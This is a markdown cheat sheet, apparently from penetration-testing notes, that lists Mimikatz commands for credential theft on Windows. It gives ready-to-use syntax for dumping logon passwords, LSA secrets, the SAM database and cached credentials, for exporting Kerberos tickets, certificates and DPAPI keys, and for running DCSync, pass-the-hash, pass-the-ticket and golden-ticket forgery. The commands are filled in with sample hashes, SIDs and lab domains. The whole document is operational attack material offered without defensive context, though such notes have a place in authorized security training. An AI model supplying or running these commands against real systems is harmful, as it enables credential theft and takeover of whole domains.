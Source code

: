 #credential-dumping
# General Information

- Source: https://github.com/gentilkiwi/mimikatz/tree/master
- In Kali: /usr/share/windows-binaries/mimikatz

## Getting System Privileges: 

privilege::debug
log
log customlogfilename.log


# Using sekurlsa
sekurlsa::logonpasswords
sekurlsa::logonPasswords full
sekurlsa::tickets /export
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd

# Dumping Kerberos Tickets
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi
kerberos::golden /admin:administrateur /domain:megacorpone.com /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:megacorpone.com

# Checking Crypto 
crypto::capi
crypto::cng
crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE
crypto::keys /export
crypto::keys /machine /export

# Checking Windows vault 
vault::cred
vault::list
token::elevate
vault::cred
vault::list

# Dumping LSASS
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert
lsadump::dcsync /user:domain\krbtgt /domain:lab.local

# Pass the Hash with MimiKatz

sekurlsa::pth /user:Administrator /domain:megacorpone.local /ntlm:cc36cf7a8514893efccd332446158b1a
sekurlsa::pth /user:Administrator /domain:megacorpone.local/aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrator/domain:megacorpone.local/ntlm:cc36cf7a8514893efccd332446158b1a /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

# Dumping ekeys
sekurlsa::ekeys

# Dumping DPAPI
```
sekurlsa::dpapi

# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK
```

# Dumping Minidump
sekurlsa::minidump lsass.dmp

# Utilizing Pass The Ticket

kerberos::ptt Administrateur@krbtgt-megacorpone.com.kirbi

# Extracting Golden/Silver Tickets

kerberos::golden /user:afsimmons/domain:megacorpone.com /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:goldenticket.megacorpone.kirbi

kerberos::golden /domain:megacorpone.com /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrator /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080

kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi

# Resources
- https://gist.github.com/S3cur3Th1sSh1t/ef2f2b296e26b18c361e40a3d1c2fda5



